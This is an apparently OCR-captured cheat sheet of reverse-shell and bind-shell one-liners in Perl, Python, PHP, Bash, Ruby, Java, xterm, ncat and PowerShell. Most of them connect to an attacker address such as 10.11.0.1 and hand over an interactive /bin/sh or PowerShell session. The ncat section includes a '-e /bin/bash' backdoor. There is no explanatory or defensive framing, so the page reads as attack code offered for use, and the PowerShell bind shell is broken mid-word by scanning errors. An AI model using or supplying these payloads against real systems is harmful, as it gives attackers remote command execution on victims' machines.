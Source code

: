 - [Perl](#Perl)
- [Python](#Python)
- [PHP](#PHP)
- [Bash](#Bash)
- [Ruby](#Ruby)
- [Java](#Java)
- [xterm](#xterm)
- [nc](#nc)
- [powershell](#powershell)

### Perl
```
perl -e 'use Socket;$i="10.11.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.11.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash
```
bash -i >& /dev/tcp/10.11.0.1/8080 0>&1
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("<your _p>",<your_port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
```
xterm -display 10.11.0.1:1
```

### nc
- Listen to inbound connections
```
ncat -l 8080
```

- Connect to remote system
```
ncat [ip] [port]
```

- Listen to inbound connections UDP ports
```
ncat -l -u [port]
  check netstat -tunlp | grep [port]
```

- Connect to remote system UDP
```
ncat -v -u [ip] [port]
```

- nc as a proxy
```
 ncat -l port1 | ncat [ip] [port2]
  Now all the connections coming to our server on port [port1] will be automatically redirected to [ip] server on port [port2]
```

- create a backdoor
```
ncat -l [port] -e /bin/bash
ncat [ip] [port]
```

### powershell

- Reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('[your_ip]',[your_port]);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()
```

- Bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client
= $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString
($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'P
S ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str
eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```


